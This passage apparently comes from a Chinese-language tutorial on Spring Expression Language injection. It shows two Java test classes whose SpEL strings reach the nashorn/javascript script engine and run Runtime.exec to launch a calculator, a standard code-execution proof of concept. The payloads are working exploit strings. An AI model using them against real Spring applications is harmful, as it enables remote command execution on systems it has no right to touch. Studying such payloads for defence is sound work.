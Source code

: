 ![image.png](assets/1698895942-f2b34d3b60576f5880d365f24bdf3b08.png)  
什么？居然报错了，不行大脑已经短路了，容不得我思考。哦！原来是static，因为getEngineByName不是static方法，阴间狡诈，那我们怎么办！

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
